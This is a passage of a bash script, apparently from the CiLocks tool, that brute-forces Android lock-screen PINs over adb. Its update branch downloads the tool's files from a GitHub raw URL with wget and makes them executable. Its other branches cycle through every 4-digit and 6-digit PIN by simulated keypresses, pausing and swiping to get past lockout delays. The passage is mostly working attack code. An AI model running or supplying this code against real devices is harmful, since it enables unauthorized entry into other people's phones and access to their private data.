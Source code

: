   wget https://raw.githubusercontent.com/tegal1337/CiLocks/main/cilocks -O "${path}/cilocks" >/dev/null 2>&1
  wget https://raw.githubusercontent.com/tegal1337/CiLocks/main/data/config -O "${path}/data/config" >/dev/null 2>&1
  wget https://raw.githubusercontent.com/tegal1337/CiLocks/main/data/os -O "${path}/data/os" >/dev/null 2>&1
  # give permission
  chmod +x "${path}/cilocks" >/dev/null 2>&1
  chmod +x "${path}/data/config" >/dev/null 2>&1
  chmod +x "${path}/data/os" >/dev/null 2>&1
  echo "Done!"
  echo "Restart Cilocks..."
  sleep 3
  files

elif [[ $select == 2 ]]; then
  adb shell input keyevent 26 #Pressing the lock button
  adb shell input keyevent 82

  echo "Brute Pin 4 Digit"
  for i in {0000..9999}; do
      echo "Try =>" $i

      for (( j=0; j<${#i}; j++ )); do
          adb shell input keyevent $((`echo ${i:$j:1}`+7))
      done

      adb shell input keyevent 66

      if ! (( `expr $i + 1` % 5 )); then
          adb shell input keyevent 66
          echo "Delay Limit 30s"
          sleep 30
          adb shell input keyevent 82
          adb shell input swipe 407 1211 378 85
      fi
  done

elif [[ $select == 3 ]]; then
  adb shell input keyevent 26 #Pressing the lock button
  adb shell input keyevent 82

  echo "Brute Pin 6 Digit"
  for i in {000000..999999}; do
      echo "Try =>" $i

      for (( j=0; j<${#i}; j++ )); do
          adb shell input keyevent $((`echo ${i:$j:1}`+7))
      done

      adb shell input keyevent 66

      if ! (( `expr $i + 1` % 5 )); then
          adb shell input keyevent 66
          echo "Delay Limit 30s"
          secs=$((1 * 30))
          while [ $secs -gt 0 ]; do
             echo -ne "$secs\033[0K\r"
             sleep 1
             : $((secs--))
          done
